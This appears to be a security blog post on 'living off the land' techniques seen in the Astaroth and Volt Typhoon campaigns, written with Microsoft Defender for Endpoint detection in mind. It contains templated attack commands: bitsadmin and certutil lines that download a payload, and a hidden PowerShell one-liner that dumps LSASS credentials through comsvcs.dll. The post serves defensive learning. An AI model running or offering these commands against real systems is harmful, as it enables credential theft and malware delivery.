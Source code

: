 # LotL techniques with MDE detection - Part 1 
Hello everyone,

For a long time, I have seen Living off the Land (LotL) techniques discussed in Microsoft Security blogs, and recently I have been learning various attack techniques, especially those related to LotL. That's why I believe this is a great time to share my learning and detection insights in MDE through this blog, in parts 1 and 2.

### What is living off the land ?

[Microsoft Security blog](https://www.microsoft.com/en-us/security/blog/2018/09/27/out-of-sight-but-not-invisible-defeating-fileless-malware-with-behavior-monitoring-amsi-and-next-gen-av/) explains that “living off the land”, as malware only uses resources already available in the operating system.

### [Astaroth “living-off-the-land”](https://www.microsoft.com/en-us/security/blog/2019/07/08/dismantling-a-fileless-campaign-microsoft-defender-atp-next-gen-protection-exposes-astaroth-attack/)
This is a somewhat older blog, but I love it because it includes some Windows LotL-related attacks in the attack flow.

1. ZIP/LNK/BAT
1. wmi
2. bitsadmin
3. certutil

Download / Upload
```
bitsadmin /transfer <name> [<type>] [/priority <job_priority>] [/ACLflags <flags>] [/DYNAMIC] <remotefilename> <localfilename>
```

```
certutil.exe -urlcache -f "<URL/Payload>" "%Temp%\demo.exe"
```

![alt text](image.png)
> Astaroth “living-off-the-land” attack chain showing multiple legitimate tools abused
---

### [Volt Typhoon](https://www.microsoft.com/en-us/security/blog/2023/05/24/volt-typhoon-targets-us-critical-infrastructure-with-living-off-the-land-techniques/)

1. WMI
2. LSASS Process dumping (LotL)
   - cmd.exe / powershell.exe
   - rundll32.exe
   - base64 encode 

```powershell
cmd.exe /c powershell -exec bypass -W hidden -nop -E <Base64: rundll32.exe C:\Windows\System32\comsvcs.dll MiniDump PID lsass.dmp full>
```

![alt text](image-1.png)
>  Volt Typhoon attack diagram
---
- Mshta
- Regsvr32
- Scheduled Tasks

